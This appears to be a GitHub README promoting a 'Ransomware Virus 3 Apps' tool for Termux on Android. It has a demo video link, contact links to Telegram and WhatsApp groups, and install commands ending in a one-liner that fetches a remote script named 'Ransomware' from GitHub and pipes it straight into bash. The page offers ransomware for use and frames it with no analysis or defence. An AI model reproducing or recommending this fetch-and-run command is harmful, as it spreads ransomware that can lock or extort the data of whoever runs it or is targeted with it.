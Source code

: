 <h1 align="center"><u>Ransomware Virus 3 Apps</u></h1>


<h3 align="center"><a href="https://youtu.be/i3R4cJgcheU">Demo video click</a></h3>

---

### [TERMUX] Instagram Install Comments

```
pkg update && pkg upgrade -y
```
```
pkg install wget
```
```
bash <(curl -s https://raw.githubusercontent.com/Masterdas/Ransomware/refs/heads/main/Ransomware)
```

---

## 📌 Contact Me  

<a href="https://youtube.com/@zerodarknexus">
  <img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white" alt="YouTube">
</a>  

<a href="https://github.com/Masterdas?tab=repositories">
  <img src="https://img.shields.io/badge/GitHub-000000?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
</a>  

<a href="https://t.me/ZeroHackNexus">
  <img src="https://img.shields.io/badge/Telegram-26A5E4?style=for-the-badge&logo=telegram&logoColor=white" alt="Telegram">
</a>  

<a href="https://chat.whatsapp.com/II35pNaN25rHqnUmqXK6ag">
  <img src="https://img.shields.io/badge/WhatsApp-25D366?style=for-the-badge&logo=whatsapp&logoColor=white" alt="WhatsApp">
</a>
